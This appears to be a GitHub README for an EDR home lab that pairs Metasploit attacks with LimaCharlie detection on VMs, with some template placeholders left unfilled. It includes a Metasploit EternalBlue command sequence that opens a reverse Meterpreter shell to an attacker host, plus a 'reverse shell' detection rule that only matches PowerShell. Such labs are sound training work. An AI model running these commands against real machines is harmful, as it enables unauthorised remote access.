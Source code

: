 # EDR Home Lab for Attack & Defense Simulation

## Objective
[Brief Objective -]

This lab simulates a realistic attack and defense scenario using Metasploit for offensive operations and LimaCharlie for endpoint detection and response (EDR). It is designed to provide hands-on experience in attack simulation, threat detection, and incident response.

### Skills Learned
[Bullet Points - Remove this afterwards]

- Installing and configuring the LimaCharlie agent on endpoints.
- Writing and deploying custom detection rules based on MITRE ATT&CK techniques.
- Monitoring endpoint activity (e.g., process creation, network connections, file system changes) using LimaCharlie’s dashboard.
- Using LimaCharlie to respond to threats (e.g., isolating an endpoint, terminating malicious processes).
- Utilizing Metasploit for penetration testing and attack simulation.
- Identifying and interpreting malicious activity through logs and telemetry.
- Using LimaCharlie to contain threats by isolating infected endpoints.
- Documenting and reporting findings to improve defensive strategies.
- Analyzing attack simulations and documenting responses.
- Problem-solving and troubleshooting during environment setup or attack execution.

### Tools Used
[Bullet Points - Remove this afterwards]

-Metasploit Framework: To simulate cyberattacks.
-LimaCharlie: For EDR capabilities such as telemetry, rule-based detections, and incident response.
-VirtualBox/VMware: To create isolated virtual environments.
-Kali Linux: The attacker machine.
-Windows 10 VM: The target endpoint with a LimaCharlie agent installed.
-MITRE ATT&CK Framework: To map attack techniques for defense strategies.

## Steps
Step 1: Create the Environment
Why: A controlled environment ensures safe experimentation.

Steps:

Install VirtualBox or VMware.
Create a VM for Kali Linux (attacker machine).
Create a VM for Windows 10 (target machine).
Allocate at least 2GB RAM and 20GB storage.
Install LimaCharlie agent on the Windows VM.
Follow LimaCharlie’s agent installation guide.
Skills Learned:

Setting up and managing virtual machines.
Configuring an EDR agent on endpoints.
Step 2: Configure LimaCharlie
Why: To monitor the target system’s activities and test detections.

Steps:

Sign up for a free LimaCharlie account.
Add the Windows VM as an endpoint.
Create detection rules (e.g., for reverse shell or privilege escalation).
Example Rule:
yaml
Copy code
name: "Detect Reverse Shell"
detection: 
  queries:
    - evt.type == "new_process" and process.command_line contains "powershell.exe"
response: 
  - tag_alert
  - isolate
Skills Learned:

Configuring detection rules based on suspicious behaviors.
Managing EDR platforms.
Attack Simulation
Step 3: Simulate an Attack with Metasploit
Why: To replicate a real-world attack scenario and evaluate the defense system.

Steps:

Launch Metasploit on the Kali Linux VM.
Use the EternalBlue exploit to target the Windows VM:
Command:
bash
Copy code
use exploit/windows/smb/ms17_010_eternalblue
set RHOST [Windows VM IP]
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [Kali Linux IP]
set LPORT 4444
exploit
Observe the behavior on the Windows VM (a reverse shell should be established).
Skills Learned:

Using Metasploit to simulate attacks.
Understanding exploit mechanisms.
*Ref 1: Network Diagram*
